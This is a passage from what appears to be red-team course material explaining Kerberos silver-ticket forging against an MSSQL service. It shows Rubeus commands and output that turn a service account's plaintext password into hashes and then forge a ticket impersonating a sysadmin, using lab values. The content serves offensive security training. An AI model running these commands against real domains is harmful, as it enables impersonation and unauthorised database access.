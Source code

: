 Another use-case for silver tickets is when combined with other attacks that allow you to access service secrets, such as [Kerberoasting](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=67851a86ba9789af1107f5f9).  Consider a scenario where you obtain the plaintext password of a domain account running an MSSQL service.  That service account may not have sysadmin privileges on the database instance (which is default), so the service account is not directly useful in gaining access to the underlying database.  However, you can use the service's secret to forge a service ticket for the MSSQL service, impersonating a user you know to be a sysadmin.

First, convert the known plaintext credential into its hash equivalents.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /user:mssql_svc /domain:CONTOSO.COM /password:Passw0rd!

[*] Action: Calculate Password Hash(es)

[*] Input password             : Passw0rd!
[*] Input username             : mssql_svc
[*] Input domain               : CONTOSO.COM
[*] Salt                       : CONTOSO.COMmssql_svc
[*]       rc4_hmac             : FC525C9683E8FE067095BA2DDC971889
[*]       aes128_cts_hmac_sha1 : 53B5F3804FBF13E7DD624E71D18DF9BB
[*]       aes256_cts_hmac_sha1 : E4A51DAD46B6D1BA85627EEC82991C8FC94C279CE06140751E02BA015E6A21F9
[*]       des_cbc_md5          : DF91ECCDAE70BA0E
```

Then forge the service ticket for _MSSQLSvc/lon-db-1.contoso.com_.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:MSSQLSvc/lon-db-1.contoso.com:1433 /rc4:FC525C9683E8FE067095BA2DDC971889 /user:rsteel /id:1108 /groups:513,1106,1107,4602 /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : CONTOSO.COM (CONTOSO)
[*] SID            : S-1-5-21-3926355307-1661546229-813047887
[*] UserId         : 1108
[*] Groups         : 513,1106,1107,4602
[*] ServiceKey     : FC525C9683E8FE067095BA2DDC971889
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : FC525C9683E8FE067095BA2DDC971889
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : MSSQLSvc
[*] Target         : lon-db-1.contoso.com:1433

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'rsteel' to 'MSSQLSvc/lon-db-1.contoso.com:1433'

[*] AuthTime       : 04/03/2025 12:39:29
[*] StartTime      : 04/03/2025 12:39:29
[*] EndTime        : 04/03/2025 22:39:29
[*] RenewTill      : 11/03/2025 12:39:29

[*] base64(ticket.kirbi):

      doIFV[...snip...]xNDMz
```
